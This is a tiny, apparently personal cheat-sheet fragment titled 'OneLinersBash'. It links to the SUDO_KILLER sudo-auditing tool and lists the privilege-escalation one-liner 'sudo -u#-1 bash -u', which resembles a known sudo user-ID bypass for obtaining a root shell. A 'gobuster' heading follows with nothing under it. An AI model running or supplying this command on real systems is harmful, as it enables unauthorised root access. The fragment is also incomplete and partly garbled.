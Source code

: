 # OneLinersBash


# SUDO_KILLER

url: https://github.com/TH3xACE/SUDO_KILLER/tree/master

$ sudo -u#-1 bash -u

# gobuster

